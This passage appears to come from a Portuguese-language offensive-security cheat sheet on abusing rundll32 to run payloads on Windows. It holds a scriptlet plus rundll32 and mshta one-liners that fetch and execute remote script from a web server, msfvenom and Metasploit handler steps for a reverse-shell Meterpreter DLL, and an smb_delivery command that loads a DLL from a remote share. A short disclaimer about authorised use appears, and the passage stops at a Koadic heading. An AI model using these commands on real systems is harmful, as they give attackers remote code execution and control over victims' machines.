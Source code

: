 **Detectado pelo defensor**

**Rundll32 - sct**
```bash
<?XML version="1.0"?>
<!-- rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:http://webserver/scriplet.sct");window.close();  -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:http://webserver/scriplet.sct"")")) -->
<scriptlet>
<public>
</public>
<script language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```
#### **Rundll32 - Metasploit**

O comando `rundll32` é uma ferramenta do Windows que permite executar funções em bibliotecas de vínculo dinâmico (DLLs). No contexto do Metasploit, podemos usar o `rundll32` para carregar uma DLL maliciosa e executar um payload.

Aqui está um exemplo de como usar o `rundll32` com o Metasploit:

1. Crie um payload do Metasploit usando o msfvenom:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<seu endereço IP> LPORT=<sua porta> -f dll > payload.dll
```

2. Inicie um listener do Metasploit para receber a conexão reversa:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <seu endereço IP>
set LPORT <sua porta>
exploit
```

3. No computador de destino, execute o seguinte comando para carregar a DLL maliciosa e executar o payload:

```
rundll32 payload.dll, <nome da função>
```

Certifique-se de substituir `<nome da função>` pelo nome da função exportada pela DLL maliciosa.

O `rundll32` é uma ferramenta poderosa que pode ser usada para executar payloads maliciosos no Windows. No entanto, é importante lembrar que o uso indevido dessa ferramenta é ilegal e pode resultar em consequências legais graves. Portanto, sempre use essas técnicas apenas para fins educacionais e com permissão adequada.
```bash
use windows/smb/smb_delivery
run
#You will be given the command to run in the victim: rundll32.exe \\10.2.0.5\Iwvc\test.dll,0
```
**Rundll32 - Koadic**
